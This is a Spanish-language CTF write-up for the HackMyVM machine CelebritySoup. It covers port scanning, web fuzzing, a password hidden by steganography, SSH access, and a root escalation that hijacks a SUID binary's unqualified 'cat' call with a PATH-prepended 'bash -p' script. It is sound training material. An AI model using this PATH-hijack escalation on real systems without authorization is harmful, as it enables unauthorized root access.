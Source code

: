 ```yaml
---
layout      : post
title       : "CelebritySoup - HackMyVm"
author      : elc4br4
image       : assets/images/HMV/Celebritysoup-HackMyVM/Celebritysoup.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
---
```


Esta vez tenemos la máquina CelebritySoup nivel Easy creada por ShellDredd, en la que tendremos un poco de todo, una "larga" enumeración web con cositas muy chulas en cuanto al diseño del CTF, un poco de stego y una escalada bien sencilla tirando de un SUID y jugando un poco con la variable PATH.

Canal de ShellDredd Informática --> [https://www.youtube.com/c/ShellDreddInform%C3%A1tica](https://www.youtube.com/c/ShellDreddInform%C3%A1tica)

# Reconocimiento de Puertos

Comienzo escaneando puertos, como de costumbre.

![](/assets/images/HMV/Celebritysoup-HackMyVM/rustcan.webp)

Escaneo más avanzado de versiones y servicios.

```nmap
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:8f:44:53:04:a9:81:ac:f9:3c:4d:6f:c6:bd:61:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCWD3FxSjZsVitvLh+T2H7YXugTHxEEmebRbiiJFDt5BFm+hfELTOCeoQLVNd2GaqYr8sD0GGz5lc7npxfE7Q0xSL6y0HCsEQC/zzmfmPwscqYJV+fk6mwAt8lAh537OB00YZtmt/67kUgW3Xd9udhvT1MiLdk0WNRcjtMotgzs9a0gXk1CUEery/w7pa5CxM9F4uFJ0EclV6Dzdga31ZldU2QqkJWgT1XzDZHYjTEA92GN7kES1stUz/PygGU7C6gXzmTuiBHw9kmdAfzG+KyJUAKt2wZaxqWrNWml7Nwy1iHKCTmrlfkFkwxJ+5Glh3SWVRor0x/8fVRLzuSwvXDX
|   256 fb:12:87:90:45:1c:8b:b7:23:86:aa:a7:2f:be:80:f0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOCjQeru+5a3+VqyTvVo6JZC4aIResbTMoq3J+G3EObG+ic+EycPH92coD1VMS8PMxpW8Bp3lHdbQOV8NJ8eYLE=
|   256 d4:e3:36:6c:d0:20:c3:5b:2d:c6:c5:6b:28:be:f6:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDOruj2FYzeb0QWZZH4K3dcPk04F0iGMvU8iBK5c2l1R
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Section 9
|_http-favicon: Unknown favicon MD5: DE02BF0388A5D040B61481AE073E693D
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos lo siguiente:

> Puerto 21 , 22 , 80 abiertos.

Probé si tenía acceso anónimo el servidor ftp pero no, asique supongo que debemos encontrar credenciales válidas.

Procedo a enumerar el servidor web.


# Enumeración Web

Abro el navegador y accedo al servidor web.

![](/assets/images/HMV/Celebritysoup-HackMyVM/web1.webp)

De primeras no hay nada, y en el código fuente tampoco veo nada que me pueda servir, de forma que procedo a enumerar rutas en el servidor.

![](/assets/images/HMV/Celebritysoup-HackMyVM/feroxbuster.webp

Como se puede ver, hay varias rutas, pero la que más me llama la atención es el archivo robots.txt, asique voy a ver que tenemos.

![](/assets/images/HMV/Celebritysoup-HackMyVM/robots.webp)

Parece que tenemos varios archivos con extensión html, asique los reviso uno a uno, y a simple vista no parece nada importante, pero revisando el código fuente de los archivos sector(1-10) veo algo raro.

En cada archivo tenemos este patrón que se repite en los demás.

```secret
<div secret1="pu"></div>
<div secret2="pp"></div>
<div secret3="et"></div>
<div secret4="ma"></div>
<div secret5="st"></div>
<div secret6="er"></div>
```
Si unimos estas pistas, encontramos la palabra puppetmaster que podría ser un usuario o una contraseña, pero aún no lo sabemos a ciencia cierta.

En el archivo sector9.html encuentro una especie de artículo

![](/assets/images/HMV/Celebritysoup-HackMyVM/web2.webp)

Al ver que el archivo sector9.html es diferente a los más, pienso que dentro ha de haber una ruta o alguna pista que podría ayudarme a continuar.

Asique voy a probar a crear un diccionario con el contenido de la página usando la herramienta cewl.

> `cewl --with-numbers http://192.168.0.15/sector9.html > diccionario_web.txt`

Una vez generado el diccionario voy a fuzzear en busca de rutas.

![](/assets/images/HMV/Celebritysoup-HackMyVM/feroxbuster2.webp)

Tenemos la ruta project2501.html, asique vamos a ver que hay.

![](/assets/images/HMV/Celebritysoup-HackMyVM/project2501.png)

Puede que la información este escondida dentro de la imágen, pero no me deja descargarla, asique buscando en el código fuente encuentro una fuga en el código web, modding.css

`<link href="modding.css" rel="stylesheet">`

Y encontramos la ruta de la imágen, que ya la podremos descargar y analizarla.

![](/assets/images/HMV/Celebritysoup-HackMyVM/css.webp)

La descargo y analizo con exiftool.

![](/assets/images/HMV/Celebritysoup-HackMyVM/exiftool.webp)

Pero no hay nada oculto... Aunque estoy seguro que hay algo en la imágen, ya que no hay otro hilo del que tirar.

![](/assets/images/HMV/Celebritysoup-HackMyVM/sector10.gif)

A través de una herramienta de esteganografía online adjunto la imágen y me da una cadena encodeada en binario... podría ser un mensaje...

```binary
0110010001101001011001110110100101110100011000010110110000101101011000100111001001100001011010010110111000101101011010010111001100101101011101000111001001100001011011100111001101100011011001010110111001100100011010010110111001100111
```

Lo desencripto:

![](/assets/images/HMV/Celebritysoup-HackMyVM/binary.webp)

Parece una contraseña, alomejor podemos conectarnos a través de ssh usando el usuario puppetmaster y la contraseña digital-brain-is-transcending

![](/assets/images/HMV/Celebritysoup-HackMyVM/ssh.webp)

Hemos tenido userte, las credenciales eran válidas.

Ahora ya puedo leer la flag user.txt, por lo tanto ya pasamos a la parte de escalar privilegios.

![](/assets/images/HMV/Celebritysoup-HackMyVM/user.webp)

# Escalada de Privilegios

Como de costumbre para escalar privilegios primero debemos enumerar para encontrares posibles vectores de escalada.

Antes de nada tenemos en el directorio donde se aloja la flag user.txt un archivo llamado `systeminfo`.

> `-rwsr-xr-x 1 root         root         16712 ene  6  2021 systeminfo`

El archivo systeminfo tiene privilegios SUID, asique voy a ver que contiene este archivo en su interior.

![](/assets/images/HMV/Celebritysoup-HackMyVM/escalada1.webp)

Si nos fijamos tenemos rutas absolutas, excepto en la línea `cat /etc/*release` donde el cat en vez de definirse como /usr/bin/cat se define como cat solamente.

Podríamos aprovecharnos del cat para escalar privilegios, creando un archivo llamado cat añadiéndole cierto contenido en su interior, después lo colocamos en la variable de entorno para que al ejecutar el systeminfo ejecute nuestro cat modificado, por lo tanto ejecute el contenido de su interior.

Lo mostaré paso por paso y lo entenderéis mejor:
 
> Creamos el archivo cat 

`puppetmaster@CelebritySoup:~$ touch cat`

> Añadimos el contenido dentro del archivo

```bash
puppetmaster@CelebritySoup:~$ echo "bash -p" > cat
puppetmaster@CelebritySoup:~$ cat cat
bash -p
```
> Le asiganos permisos de ejecución

`chmod +x cat`

> Lo añadimos a la variable de entorno PATH

`export PATH=/home/puppetmaster/:$PATH`

> Ejecutamos el archivo systeminfo

```bash
puppetmaster@CelebritySoup:~$ ./systeminfo 


root
uid=0(root) gid=1000(puppetmaster) grupos=1000(puppetmaster),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
CelebritySoup
```

![](/assets/images/HMV/Celebritysoup-HackMyVM/root.webp)

Y ya podemos leer la flag root

![](/assets/images/HMV/Celebritysoup-HackMyVM/root1.webp)